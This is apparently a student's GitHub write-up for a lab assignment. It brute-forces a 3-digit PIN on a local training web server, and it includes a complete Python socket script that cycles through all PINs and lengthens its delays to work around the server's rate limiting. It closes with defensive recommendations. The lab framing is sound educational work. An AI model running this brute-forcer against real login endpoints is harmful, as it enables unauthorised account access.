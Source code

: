 PIN Cracker - IT6 Take Home Drill

This repository contains my solution for the IT6 Take Home Drill assignment, which involves creating a Python script to crack a 3-digit PIN on a locally hosted web application using only the standard socket library.

Project Overview

The challenge involves:
- Analyzing a web application that requires a 3-digit numeric PIN
- Creating a Python script that can systematically try all possible PIN combinations
- Using only the standard socket library (no requests, urllib, etc.)
- Handling server constraints that slow down brute force attempts
- Detecting when the correct PIN is found

Technical Approach

1. Discovering the Server

To find the server's address and port, I used:
- Wireshark to capture network traffic when starting the executable
- Browser developer tools to analyze network requests
- Basic network scanning tools (netstat)

I discovered the server was running on 127.0.0.1 (localhost) on port 8888.

2. Understanding the HTTP Protocol Implementation

By examining the web application in a browser and using developer tools, I:
- Identified the form submission method (POST)
- Determined the endpoint (/verify)
- Found the parameter name for the PIN (magicNumber)
- Analyzed the HTTP request headers and body format

3. Solution Strategy

My approach to brute forcing the PIN involved:

1. Creating a Script: Developed a Python script using only the socket library
2. Crafting HTTP Requests: Manually constructed valid HTTP POST requests
3. Systematic Testing: Implemented a loop to try all possible PINs from 000-999
4. Response Analysis: Parsed responses to detect success or failure
5. Constraint Handling: Added delays between requests to work around server anti-brute force mechanisms

4. Challenges and Solutions

1. Rate Limiting: The server implemented a "slow down" mechanism
   - Solution: Added dynamic sleep timers that increased when warned by the server

2. HTTP Protocol Compliance: Ensuring proper request formatting
   - Solution: Carefully crafted headers and body with proper content length and encoding

3. Response Parsing: Identifying successful attempts from HTTP responses
   - Solution: Added string pattern matching to look for "Congratulations" or "Correct" in responses

The Solution

The final solution is a Python script that:
- Creates a socket connection to the server
- Forms and sends properly formatted HTTP POST requests
- Tests all possible 3-digit PIN combinations (000-999)
- Handles server rate limiting by implementing appropriate delays
- Detects success when the correct PIN is found

```python
import socket
import time

# Set up the Address and Port
Address = '127.0.0.1'  # localhost address
Port = 8888            # Port number of the server


# Inital sleep time between requests to avoid overwhelming the server
sleep_time = 1.0


# Loop through all possible PINs (000 to 999)
for pin in range(0, 1000):
    formatted_pin = f"{pin:03d}"  # Formatted the PIN to always have 3 digits

    try:
        
        # Create new socket object for each attempt
        client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        
        # Connect to the target server
        client_socket.connect((Address, Port))

        # Construct the body of the Post request with the formatted PIN
        body = f"magicNumber={formatted_pin}"
        request = (
            f"POST /verify HTTP/1.1\r\n"
            f"Host: {Address}:{Port}\r\n"
            "Content-Type: application/x-www-form-urlencoded\r\n"
            f"Content-Length: {len(body)}\r\n"
            "Connection: close\r\n"
            "\r\n"
            f"{body}"  # Add the PIN body to the request
        )

        # Send the request to the server
        client_socket.sendall(request.encode())

        # Receive the server's response
        response = b""
        while True:
            part = client_socket.recv(4096)   # Receive data in chunks
            if not part:
                break
            response += part
        
        
        # Decode the respinse and handle possible errors
        decoded_response = response.decode(errors="ignore")

        # Check if the server's response indicates a successful PIN guess
        if "congratulations" in decoded_response.lower() or "access granted" in decoded_response.lower() or "welcome" in decoded_response.lower():
            print(f"[+] Found correct PIN: {formatted_pin}")
            print(decoded_response) 
            break # Stop the loop when the correct PIN is found

        # If the server requests slowdown, increase the sleep time
        elif "slow down" in decoded_response.lower():
            print(f"[!] Server said slow down after PIN {formatted_pin}. Increasing sleep time...")
            sleep_time += 0.5
        else:

            # If the PIN is incorrect, print the attempt
            print(f"[-] Tried PIN: {formatted_pin}")

    except Exception as e:

        # If there is an error, print the error
        print(f"[!] Error with PIN {formatted_pin}: {e}")

    finally:

        # Always close the socket after the attempt
        client_socket.close()
    
    # Sleep for a while to avoid sending too many request too quickly
    time.sleep(sleep_time)

# Print a message when brute forcing is completed
print("Brute force completed")


```

What I Learned

Through this assignment, I gained practical experience with:
- Low-level network programming using the socket library
- HTTP protocol details and crafting requests manually
- Brute force attack methodology and constraints
- Defensive countermeasures against brute force attacks
- Network traffic analysis using tools like Wireshark

Security Recommendations

To protect against this type of attack, I would recommend implementing:

1. Account Lockout: Temporarily lock accounts after a certain number of failed attempts
2. Progressive Delays: Increase waiting time between attempts exponentially
6. Stronger Credentials: Increase PIN length or use alphanumeric passwords
7. Request Monitoring: Implement systems to detect and alert on suspicious activity

Video Tutorial

A video walkthrough explaining my approach and answering all required questions can be found [here](https://drive.google.com/file/d/1Wh06KMYlRcPggqAiZKi7kKo9UGHftiBe/view?usp=sharing).

Running the Code

To run this code yourself:
1. Download and run the executable from the assignment
2. Ensure the server is running
3. Execute the Python script: `scripts.py`
4. The script will output the correct PIN when found

References

- [Socket Programming in Python](https://docs.python.org/3/library/socket.html)
- [HTTP Protocol](https://developer.mozilla.org/en-US/docs/Web/HTTP)
- [Web Security Best Practices](https://owasp.org/www-project-top-ten/)
